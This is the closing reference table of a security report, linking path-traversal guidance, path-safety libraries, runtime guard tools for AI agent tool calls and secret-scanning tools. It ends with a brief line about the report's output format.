| Path traversal (CWE-22) | [AuditBuffet ab-001849](https://auditbuffet.com/patterns/ab-001849) |
| strict-path-rs library | [dk26/strict-path-rs](https://github.com/dk26/strict-path-rs) |
| path_jail TOCTOU | [tenuo-ai/path_jail](https://github.com/tenuo-ai/path_jail) |
| mcp-guard MCP middleware | [jakeb-5/mcp-guard](https://github.com/jakeb-5/mcp-guard) |
| bareguard runtime policy | [hamr0/bareguard](https://github.com/hamr0/bareguard) |
| barbican wrapper binaries | [jdidion/barbican](https://github.com/jdidion/barbican) |
| SecretScan PostToolUse | [Manavarya09/secretscan](https://github.com/Manavarya09/secretscan) |
| armorer-guard pre-execution | [armorer-guard on PyPI](https://pypi.org/project/armorer-guard/) |
| TruffleHog secret detection | [trufflesecurity/trufflehog](https://github.com/trufflesecurity/trufflehog) |
| AWS git-secrets | [awslabs/git-secrets](https://github.com/awslabs/git-secrets) |

---

*End of report. Return only verdict/path/short summary.*
